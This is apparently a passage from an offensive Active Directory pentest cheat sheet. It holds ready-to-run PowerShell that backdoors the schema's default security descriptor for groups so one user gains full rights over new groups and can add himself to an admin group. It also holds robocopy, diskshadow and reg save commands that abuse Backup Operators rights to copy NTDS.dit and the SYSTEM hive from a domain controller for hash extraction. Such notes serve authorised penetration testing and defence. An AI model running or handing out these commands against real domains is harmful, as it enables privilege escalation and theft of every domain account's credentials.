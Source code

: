 #### Change ACLs on the groups

Give full rights to a user on the groups

```powershell
$creds = New-Object System.Management.Automation.PSCredential ("domain.local\user1", (ConvertTo-SecureString "Password" -AsPlainText -Force)); Set-ADObject -Identity "CN=group,CN=Schema,CN=Configuration,DC=domain,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;S-1-5-21-854239470-2015502385-3018109401-52104)';} -Verbose -server dc.domain.local -Credential $creds
```

When a new group is created we can add any user to it with the user who has full rights

```powershell
$User = Get-ADUser -Identity "CN=user1,CN=Users,DC=domain,DC=local"; $Group = Get-ADGroup -Identity "CN=new_admingroup,CN=Users,DC=domain,DC=local"; $creds = New-Object System.Management.Automation.PSCredential ("domain.local\user1", (ConvertTo-SecureString "Password" -AsPlainText -Force)); Add-ADGroupMember -Identity $Group -Members $User -Server dc.domain.local -Credential $creds
```

### Backup Operators

Can _generally_ log in on any machines of the domain.

#### File system backup

Can backup the **entire file system** of a machine (DC included) and have full read/write rights on the backup

To backup a folder :

```batch
robocopy /B C:\Users\Administrator\Desktop\ C:\tmp\tmp.txt /E
```

To backup with **Diskshadow + Robocopy**:

* Create a `script.txt` file to backup with Diskshadow

```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

* Backup with `diskshadow /s script.txt`
* Retrieve the backup with **robocopy** and send the NTDS file in the current folder : `robocopy /b E:\Windows\ntds . ntds.dit`
* Then retrieve the SYSTEM registry hive to decrypt and profit `reg save hklm\system c:\temp\system`

